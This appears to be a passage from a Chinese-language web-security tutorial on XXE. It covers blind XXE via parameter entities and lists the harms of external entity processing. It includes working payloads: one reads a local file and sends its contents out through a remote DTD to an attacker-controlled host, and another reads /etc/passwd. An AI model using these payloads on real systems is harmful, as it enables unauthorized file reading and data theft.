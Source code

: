 #### 1.3.2.3 Blind XXE
当服务器没有回显，我们可以选择使用Blind XXE。与前两种XXE不同之处在于Blind XXE无回显信息,可组合利用file协议来读取文件或http协议和ftp协议来查看日志。
Blind XXE主要使用了DTD约束中的参数实体和内部实体。
在XML基础有提到过参数实体的定义，这里就不再做详细讲解。
参数实体是一种只能在DTD中定义和使用的实体，一般引用时使用%作为前缀。而内部实体是指在一个实体中定义的另一个实体，也就是嵌套定义。
```
<?xml version="1.0"?>
<!DOCTYPE Note[
<!ENTITY % file SYSTEM "file:///C:/1.txt">
<!ENTITY % remote SYSTEM "http://攻击者主机IP/Quan.xml">
%remote;
%all;
]>

<root>&send;</root>
```
Quan.xml内容：
```
<!ENTITY % all "<!ENTITY send SYSTEM 'http://192.168.150.1/1.php?file=%file;'>">
```
`%remote`引入外部XML文件到这个 XML 中，`%all`检测到send实体，在 root 节点中引入 send 实体，便可实现数据转发。
利用过程：第3行，存在漏洞的服务器会读出file的内容（c:/1.txt），通过Quan.xml带外通道发送给攻击者服务器上的1.php，1.php做的事情就是把读取的数据保存到本地的1.txt中，完成Blind XXE攻击。

# 2. 危害
当允许引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害。

## 2.1 读取任意文件 
PHP中可以通过FILE协议、HTTP协议和FTP协议读取文件，还可利用PHP伪协议。
```
<?xml version="1.0"?>
    <!DOCTYPE Quan[
    <!ENTITY f SYSTEM "file:///etc/passwd">
]>

<hhh>&f;<hhh>
```
XML在各语言下支持的协议有:
![图片](assets/图片39.png)
